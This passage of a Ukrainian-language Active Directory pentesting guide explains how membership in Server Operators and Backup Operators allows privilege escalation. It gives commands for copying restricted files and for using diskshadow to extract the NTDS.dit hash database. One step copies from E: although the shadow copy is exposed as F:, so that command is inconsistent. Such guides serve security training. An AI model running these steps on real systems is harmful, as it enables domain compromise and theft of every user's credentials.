 Доступ до файлів на DC обмежений, якщо користувач не належить до групи `Server Operators`, яка змінює рівень доступу.

### Підвищення привілеїв

За допомогою `PsService` або `sc` із Sysinternals можна переглядати та змінювати дозволи сервісів. Наприклад, група `Server Operators` має повний контроль над певними сервісами, що дозволяє виконувати довільні команди та підвищувати привілеї:
```cmd
C:\> .\PsService.exe security AppReadiness
```
Ця команда показує, що `Server Operators` мають повний доступ, що дозволяє маніпулювати службами для підвищення привілеїв.

## Backup Operators

Членство в групі `Backup Operators` надає доступ до файлової системи `DC01` через привілеї `SeBackup` і `SeRestore`. Ці привілеї дозволяють обходити папки, переглядати вміст та копіювати файли, навіть без явних дозволів, використовуючи прапорець `FILE_FLAG_BACKUP_SEMANTICS`. Для цього потрібні спеціальні скрипти.

Щоб перерахувати членів групи, виконайте:
```bash
Get-NetGroupMember -Identity "Backup Operators" -Recurse
```
### Локальна атака

Щоб використати ці привілеї локально, виконуються наступні кроки:

1. Імпортувати необхідні бібліотеки:
```bash
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```
2. Увімкніть та перевірте `SeBackupPrivilege`:
```bash
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```
3. Доступ та копіювання файлів із обмежених каталогів, наприклад:
```bash
dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\report.pdf c:\temp\x.pdf -Overwrite
```
### Атака на AD

Прямий доступ до файлової системи контролера домену дозволяє викрасти базу даних `NTDS.dit`, яка містить всі NTLM-хеші доменних користувачів та комп'ютерів.

#### Використання diskshadow.exe

1. Створіть теневу копію диска `C`:
```cmd
diskshadow.exe
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
begin backup
add volume C: alias cdrive
create
expose %cdrive% F:
end backup
exit
```
2. Скопіюйте `NTDS.dit` з тіньової копії:
```cmd
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```